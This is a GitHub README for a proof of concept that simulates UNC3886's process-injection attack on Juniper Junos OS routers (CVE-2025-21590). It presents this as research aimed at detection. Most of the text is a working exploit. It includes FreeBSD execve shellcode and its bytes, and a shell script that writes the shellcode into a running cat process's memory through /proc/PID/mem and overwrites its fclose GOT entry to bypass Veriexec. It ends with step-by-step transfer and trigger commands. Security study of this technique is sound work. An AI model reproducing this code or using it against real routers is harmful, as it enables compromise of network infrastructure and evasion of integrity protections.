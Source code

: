 # straycat (UNC3886 simulation) (CVE-2025-21590)

## Description

This is a simulation of the China-Nexus Espionage Actor UNC3886 process injection technique used against Juniper Networks Junos OS routers. Treat it as a proof of concept (PoC) for research only.

Junos OS by Juniper Networks is a proprietary operating system that's powering most Juniper routing, switching, and security devices.

Junos OS has Veriexec (a modified version of NetBSD Veriexec Subsystem). It is a kernel-based file integrity subsystem that protects the OS against unknown binaries, libraries, and scripts.

To bypass Veriexec, the execution of untrusted code must be done in a trusted process context. In this case, a hanged cat binary. By the way, the technique seems to be patched on the last version of Junos OS.

## The minimal PoC

There are a few differences between the original exploit and this one. I didn't use the TINYSHELL backdoor so no C2 involved. I just used a simple shellcode to spawn a shell to try the process injection technique against Junos OS routers in an attempt to find a way to log such activity.

### FreeBSD shellcode

```asm
.section .text
.globl _start
_start:
    xorq %rax, %rax
    pushq %rax
    movabs $0x68732f6e69622f2f, %rax
    pushq %rax
    movq %rsp, %rdi
    xorq %rax, %rax
    pushq %rax
    pushq %rdi
    movq %rsp, %rsi
    xorq %rdx, %rdx
    movb $59, %al
    syscall
```

#### Using a FreeBSD VM to compile the shellcode

Probably could've just used pwntools tho.

```Vagrantfile
Vagrant.configure("2") do |config|
  config.vm.box = "generic/freebsd12"
  config.vm.box_version = "4.3.12"
end
```

```bash
as execve.s -o execve.o
ld execve.o -o execve
objdump -d execve | awk '/^ / {for(i=2; i<=NF; i++) if ($i ~ /^[0-9a-f]{2}$/) printf "%s", $i}' | xxd -r -p > loader.bin

# 00000000  48 31 c0 50 48 b8 2f 2f  62 69 6e 2f 73 68 50 48  |H1.PH.//bin/shPH|
# 00000010  89 e7 48 31 c0 50 57 48  89 e6 48 31 d2 b0 3b 0f  |..H1.PWH..H1..;.|
# 00000020  05                                                |.|
# 00000021

# copying over as hex because I'm lazy to set up a shared folder
hexdump -v -e '16/1 "%02x " "\n"' loader.bin > loader.hex
```

### Packaging

Before writing this up, I tested against Ubuntu on aarch64 and x86_64 on VMs on my local machine. I had to extract the cat binary from the Junos OS to check some addresses as well.

```sh
#!/bin/sh

# straycat-freebsd.sh

PID=$1

BASE_ADDR=$(grep "/bin/cat" /proc/$PID/map | grep "r-x" | head -1 | awk '{print $1}' | cut -d'-' -f1 | sed 's/^0x//')

BASE_DEC=$(printf "%d" "0x$BASE_ADDR")

ENTRY_OFFSET=0x18e0 # .text section offset
GOT_OFFSET=0x20d078 # fclose@GOT offset

ENTRY_OFFSET_DEC=$(printf "%d" "$ENTRY_OFFSET")
GOT_OFFSET_DEC=$(printf "%d" "$GOT_OFFSET")

ENTRY_ADDR=$((BASE_DEC + ENTRY_OFFSET_DEC))
GOT_ADDR=$((BASE_DEC + GOT_OFFSET_DEC))

echo "[+] Base: 0x$(printf "%x" $BASE_DEC)"
echo "[+] Shellcode @ 0x$(printf "%x" $ENTRY_ADDR)"
echo "[+] Hijacking GOT @ 0x$(printf "%x" $GOT_ADDR)"

dd if=loader.bin of=/proc/$PID/mem bs=1 seek=$ENTRY_ADDR conv=notrunc 2>/dev/null

dd if=pc.bin of=/proc/$PID/mem bs=1 seek=$GOT_ADDR conv=notrunc 2>/dev/null
```

#### loader.bin and pc.bin

```sh
printf '\x50\x24\x20\x00\x00\x00\x00\x00' >pc.bin
cat loader.hex | xxd -r -p > loader.bin
```

#### pwn.tar.gz.b64

```sh
tar cvf pwn.tar.gz pc.bin loader.bin straycat-freebsd.sh
base64 pwn.tar.gz > pwn.tar.gz.b64
# copy pwn.tar.gz.b64 to the Junos OS VM
```

## Start two terminal windows of Junos OS virtual machine

```bash
ssh root@<ip>
mkfifo /tmp/null
cat /tmp/null
```

```bash
ssh root@<ip>
# copy pwn.tar.gz.b64 to the Junos OS VM
base64 -d pwn.tar.gz.b64 > pwn.tar.gz
tar xvf pwn.tar.gz
chmod +x straycat-freebsd.sh
ps aux | grep 'cat' | grep 'null' | awk '{print $2}'
# <PID>
sh ./straycat-freebsd.sh <PID>
# [+] Base: 0x202000
# [+] Shellcode @ 0x2038e0
# [+] Hijacking GOT @ 0x40f078
# trigger the shellcode
echo >/tmp/null
# shell should spawn on the other terminal
```

## References

- [Ghost in the Router: China-Nexus Espionage Actor UNC3886 Targets Juniper Routers | Google Cloud Blog](https://cloud.google.com/blog/topics/threat-intelligence/china-nexus-espionage-targets-juniper-routers)
- [UNC3886: A New China-Nexus Espionage Actor](https://www.mandiant.com/resources/unc3886-new-china-nexus-espionage-actor)
